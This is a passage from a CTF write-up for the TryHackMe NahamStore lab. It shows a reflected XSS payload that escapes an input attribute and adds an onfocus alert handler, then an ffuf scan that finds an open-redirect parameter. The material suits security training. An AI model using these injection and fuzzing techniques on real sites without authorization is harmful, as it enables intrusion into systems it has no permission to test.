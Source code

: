 **In the `/product` page, there is a `Discount Code` we can enter:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a18.png)

**Inspect:**

```html
<form method="post">
    <input type="hidden" name="add_to_basket" value="1">
    <div style="margin-bottom:10px"><input placeholder="Discount Code" class="form-control" name="discount" value=""></div>
   	<input type="submit" class="btn btn-success" value="Add To basket">
	<input type="button" class="btn btn-info checkstock" data-product-id="1" value="Check Stock">
</form>
```

When we click the `Add to basket` button, we'll send a POST request, and the POST parameters are `add_to_basket` and `discount`.

However, **when we use `discount` as a GET parameter, it's being reflected on the input field.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a19.png)

**And the XSS payload will fail if we don't escape the attribute:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a20.png)

**To exploit this, I'll:**

- Escape the attribute, then include the XSS payload into an event handler:

```html
<input placeholder="Discount Code" class="form-control" name="discount" value="" autofocus="" onfocus="alert(1)">
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/NahamStore/images/a21.png)

# Task 3 - Open Redirect

```
Find two URL parameters that produce an Open Redirect
```

1. Open Redirect One

**We can fuzz hidden GET parameter in the home page of `nahamstore.thm`:**

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt -u http://nahamstore.thm/?FUZZ=https://siunam321.github.io -fw 985 
[...]
r                       [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 207ms]
```

Found **`r` GET parameter**.
